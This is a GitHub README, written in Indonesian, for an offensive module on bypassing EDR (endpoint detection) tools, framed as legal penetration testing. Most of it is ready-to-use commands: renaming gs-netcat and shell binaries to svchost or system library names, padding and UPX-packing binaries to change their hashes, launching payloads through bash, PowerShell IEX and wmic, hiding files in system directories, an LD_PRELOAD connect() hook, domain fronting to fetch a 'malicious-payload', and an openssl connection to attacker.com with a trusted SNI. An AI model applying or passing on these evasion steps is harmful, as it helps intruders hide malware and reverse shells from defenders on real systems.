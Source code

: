 # 🛡️ EDR Bypass Techniques

> **Original Technical Content**: Sekiya
> **Compiled and Summarized by**: Tamas

## 📋 Overview

EDR (Endpoint Detection and Response) adalah sistem keamanan yang memantau dan menganalisis aktivitas endpoint untuk mendeteksi ancaman. Modul ini membahas berbagai teknik untuk melewati deteksi EDR dalam konteks penetration testing yang legal.

## ⚠️ Disclaimer

Teknik-teknik ini hanya untuk tujuan edukasi dan penetration testing yang sah. Penggunaan untuk tujuan ilegal adalah tanggung jawab pengguna.

## 🎯 Permasalahan Umum dengan EDR

- 🔸 EDR mendeteksi pola reverse shell & known malicious binary (hash, behavior)
- 🔸 Memblokir suspicious network connection (outbound unusual TCP)
- 🔸 Memblokir unusual binary execution dari temp folders
- 🔸 Mendeteksi known binaries (gs-netcat, nc, socat, mimikatz, dll)

## 🔧 Strategi Bypass EDR

### A. Binary Obfuscation & Renaming

**Tujuan**: Mengubah signature dan hash binary agar tidak terdeteksi

#### 1. Rename Binary ke Nama Trusted
```bash
# Rename ke nama sistem yang dipercaya
mv gs-netcat /usr/bin/ld-linux-x86-64.so.2
mv shell.exe /windows/system32/svchost.exe
```

#### 2. Strip Debug Symbols
```bash
# Menghapus debug symbols
strip gs-netcat
strip -s malware.exe
```

#### 3. Tambahkan Padding untuk Mengubah Hash
```bash
# Menambah padding random
dd if=/dev/zero bs=1 count=1000 >> gs-netcat
echo "random_data_$(date)" >> binary_file
```

#### 4. Packing dengan UPX
```bash
# Compress dan obfuscate binary
upx --ultra-brute gs-netcat
upx --best --lzma payload.exe
```

**Hasil**: Signature dan hash berbeda dari default public binary

### B. Execute via Trusted Process

**Tujuan**: Menjalankan payload melalui proses yang dipercaya sistem

#### Linux Examples:
```bash
# Via bash
bash -c "gs-netcat -c -s secret -i"

# Via python (jika tersedia)
python -c "import os; os.system('reverse_shell_command')"

# Via perl
perl -e 'system("payload_command")'
```

#### Windows Examples:
```powershell
# Via PowerShell
powershell.exe -c "IEX(payload)"

# Via WMI
wmic process call create "cmd.exe /c payload"
```

### C. Hide on Disk

**Tujuan**: Menyembunyikan binary di lokasi yang tidak mencurigakan

#### Lokasi Penyembunyian yang Baik:
```bash
# Linux
/usr/lib/systemd/
/usr/local/share/man/
/var/tmp/.cache/
/dev/shm/.sys/

# Windows  
C:\Windows\System32\
C:\Windows\Temp\
C:\ProgramData\
```

#### Rename ke Nama Valid:
```bash
# Linux
systemd-udevd
dbus-daemon
kworker

# Windows
svchost.exe
explorer.exe
winlogon.exe
```

### D. Process Injection (Advanced)

**Tujuan**: Inject ke proses yang dipercaya untuk menghindari deteksi

#### Teknik Process Hollowing:
- Compile loader yang melakukan process injection
- Target proses trusted seperti sshd, systemd, explorer.exe
- Menggunakan LD_PRELOAD untuk hook libc functions

#### LD_PRELOAD Example:
```c
// preload.c - Hook network functions
#define _GNU_SOURCE
#include <dlfcn.h>
#include <sys/socket.h>

int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen) {
    // Custom connect logic untuk bypass monitoring
    int (*original_connect)(int, const struct sockaddr *, socklen_t);
    original_connect = dlsym(RTLD_NEXT, "connect");
    
    // Implement stealth connection
    return original_connect(sockfd, addr, addrlen);
}
```

### E. Network Evasion

**Tujuan**: Menghindari deteksi network monitoring

#### Domain Fronting:
```bash
# Gunakan domain trusted sebagai front
curl -H "Host: trusted-domain.com" https://cdn.cloudflare.com/malicious-payload
```

#### TLS dengan SNI Trusted:
```bash
# Gunakan SNI domain yang dipercaya
openssl s_client -connect attacker.com:443 -servername google.com
```

#### Port 443 (HTTPS-like):
```bash
# Jalankan di port 443 agar terlihat seperti HTTPS
gs-netcat -l -p 443 -s secret
```

## 📁 Struktur Direktori

- **[binary-obfuscation/](./binary-obfuscation/)**: Script dan tools untuk obfuscation
- **[process-injection/](./process-injection/)**: Teknik dan code untuk process injection  
- **[network-evasion/](./network-evasion/)**: Metode menghindari network detection
- **[examples/](./examples/)**: Contoh implementasi nyata

## 🛠️ Tools yang Digunakan

- **UPX**: Binary packer
- **strip**: Remove debug symbols
- **objcopy**: Modify binary sections
- **msfvenom**: Payload generation dengan encoding
- **Donut**: Position-independent shellcode generator

## 📚 Referensi

- [MITRE ATT&CK - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)
- [EDR Bypass Techniques](https://github.com/topics/edr-bypass)
- [Process Injection Techniques](https://attack.mitre.org/techniques/T1055/)

## ⚡ Tips Praktis

1. **Selalu test di lab environment dulu**
2. **Kombinasikan multiple bypass techniques**
3. **Monitor EDR logs untuk melihat apa yang terdeteksi**
4. **Update teknik sesuai perkembangan EDR**
5. **Gunakan legitimate tools yang bisa disalahgunakan (LOLBins)**

---

**Next**: [02-Reverse-Shell](../02-Reverse-Shell/) - Setup reverse shell yang stealth
